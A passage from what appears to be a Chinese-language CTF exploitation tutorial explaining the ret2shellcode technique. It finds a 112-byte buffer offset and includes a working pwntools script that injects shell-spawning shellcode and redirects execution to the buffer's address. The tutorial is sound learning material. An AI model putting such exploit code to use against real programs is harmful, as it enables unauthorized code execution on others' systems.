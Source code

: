 ![](/img/in-post/ROP/10.PNG)

类似于ret2text一样，我们使用pattern来查看缓冲区的大小，发现依然是112。因此我们需要做的是：将shellcode和其他字符串拼凑到112个字节，再接上0x0804A080（缓冲区开始的地址）。函数运行完时会弹出0x0804A080作为返回地址，这时候程序就会跑到我们注入的shellcode代码去执行。构造shellcode代码可使用pwn自带库的工具，因此exp如下：

```python
from pwn import *
sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x0804a080
sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))
sh.interactive()
```

运行exp，成功getshell

![](/img/in-post/ROP/11.PNG)

### ret2syscall
